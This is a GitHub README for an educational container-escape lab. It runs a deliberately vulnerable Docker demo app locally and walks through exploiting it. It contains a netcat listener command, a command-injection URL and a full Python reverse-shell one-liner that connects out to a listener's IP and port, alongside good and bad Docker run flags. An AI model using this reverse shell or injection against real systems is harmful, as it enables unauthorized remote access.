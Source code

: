 # Container Escapes 

**This project is for educational purposes only and aims to raise awareness of security vulnerabilities in Docker and related technologies. It is important to note that using these sample applications or code snippets without explicit permission may be illegal in an unauthorized environment.**

## Instructions

To run the demo app, follow these steps:

1. Install Docker on your system if it is not already installed.

2. Navigate to the 'demo-app' directory.

3. To create the Docker image, run: `sh build.sh`

4. To start the Docker container, run: `sh start.sh`

5. Open `http://localhost:8888` in your browser.

6. Now you can attempt to exploit the application using the provided example.

7. To stop the Docker container, simply press `CTRL+C` in the terminal.

## Example

The following example demonstrates how to exploit the demo app using the provided reverse shell script and the `nc` command.

1. Start the demo app as described above.

2. Start a netcat listener on your system: `nc -lvp 4444`

3. Open `http://localhost:8888` in your browser.

4. Use the following URL path to exploit the demo app and get a reverse shell: `http://localhost:8888/?cmd={reverse_shell_script}`

### Reverse Shell Script

Replace the following placeholders in the reverse shell script with your own values:
- `{IP_ADDRESS_LISTENER_MACHINE}` - IP address of the machine where the netcat listener is running.
- `{OPEN_PORT_ON_LISTENER_MACHINE}` - port number of the netcat listener.

```python
python -c 'import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("{IP_ADDRESS_LISTENER_MACHINE}",{OPEN_PORT_ON_LISTENER_MACHINE}));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1); os.dup2(s.fileno(),2);p=subprocess.call(["/bin/sh","-i"]);'
```

## Vulnerabilities

The following vulnerabilities are demonstrated in this project:

### Docker
[Mounted Docker Socket Escape](./docs/Escape-via-socket.md)



## Docker best and bad practices to run containers

😱 docker run -it --privileged ubuntu bash  
😨 docker run -it ubuntu bash  
😧 docker run -it --security-opt=no-new-privileges ubuntu bash  
😃 docker run -it --security-opt=no-new-privileges --cap-drop=ALL --cap-add=net_bin_service ubuntu bash  
🥰 docker run -it --security-opt=no-new-privileges --cap-drop=ALL --cap-add=net_bind_service --cpu-shares=0.5 --memory=200 ubuntu bash  




# Disclaimer

This project is intended for educational purposes only and is designed to illustrate and understand vulnerabilities in a controlled environment. The use of these application examples for unauthorized or illegal purposes is expressly prohibited. The author assumes no responsibility for improper or illegal use of this project.

